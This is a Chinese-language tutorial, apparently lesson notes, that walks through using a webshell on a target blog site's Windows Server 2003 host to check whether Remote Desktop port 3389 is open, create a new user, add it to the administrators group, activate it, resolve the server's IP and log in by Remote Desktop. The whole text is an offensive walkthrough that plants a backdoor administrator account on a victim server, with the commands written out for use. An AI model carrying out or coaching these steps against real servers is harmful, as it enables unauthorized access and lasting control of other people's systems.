






# 课程 P1：Webshell提权与服务器登录教程 🔓

在本课程中，我们将学习如何利用已获取的Webshell权限，通过一系列命令操作，最终实现登录目标服务器的过程。整个过程涉及端口查看、用户管理及远程桌面连接等关键步骤。

---

## 目标站点与环境准备

首先，我们来看一下本次演示的目标站点。该站点是一个博客类型的网站。

我们的第一步是访问已获取权限的Webshell。你需要输入Webshell的地址和预设的密码。成功登录后，你将进入Webshell的管理界面。

在Webshell界面中，你可以执行多种操作。本次课程将主要使用其中的“命令执行”功能，它允许我们在服务器上以网页形式运行命令行指令。

---

## 检查服务器信息与权限

在开始提权前，我们需要检查服务器的基本信息和当前命令执行权限。

以下是检查服务器网络连接的命令：
```bash
netstat -an
```
执行此命令可以查看服务器开放的端口。我们的主要目的是确认远程桌面服务端口（默认为3389）是否开启，以便后续进行远程连接。

如果执行命令时遇到权限错误，可以尝试Webshell提供的其他命令执行函数。通常，逐个尝试这些函数总有一个可以成功执行。

---

## 查看与创建系统用户

上一节我们确认了服务器端口状态，本节中我们来看看如何管理服务器上的用户账户。

首先，查看服务器上已存在的用户：
```bash
net user
```
请注意，`net`和`user`之间必须有一个空格。

接下来，创建一个新的用户账户，用于后续远程登录：
```bash
net user [用户名] [密码] /add
```
请将 `[用户名]` 和 `[密码]` 替换为你自定义的内容。如果要删除用户，可以使用 `/delete` 参数。

创建用户后，需要将其添加到管理员组，以获取足够权限：
```bash
net localgroup administrators [用户名] /add
```

最后，激活新创建的用户账户：
```bash
net user [用户名] /active:yes
```
**注意**：命令中的冒号必须是英文状态下的冒号。



---

## 获取服务器IP并远程连接



用户创建并激活后，下一步是获取服务器的公网IP地址并进行远程连接。



首先，从目标网站的URL中提取域名（不含 `http://` 或 `https://`）。然后，在本地的命令提示符（CMD）中使用 `ping` 命令解析其IP地址：
```bash
ping [域名]
```
记录下解析出的IP地址。


打开你电脑上的“远程桌面连接”工具（可在开始菜单的“附件”中找到）。在连接窗口中，输入刚才获取的服务器IP地址。

你将看到一个Windows Server 2003的登录界面。使用之前在Webshell中创建的**用户名**和**密码**进行登录。



成功登录服务器桌面，即表示提权操作成功。



---



## 课程总结

本节课中，我们一起学习了从Webshell提权到登录Windows服务器的完整流程。核心步骤包括：
1.  通过Webshell执行命令。
2.  检查服务器端口状态。
3.  创建并激活新的管理员用户。
4.  获取服务器IP并使用远程桌面进行连接。


整个过程逻辑清晰，关键在于理解每条命令的作用并准确执行。掌握这些基础操作是进行后续安全研究的重要一步。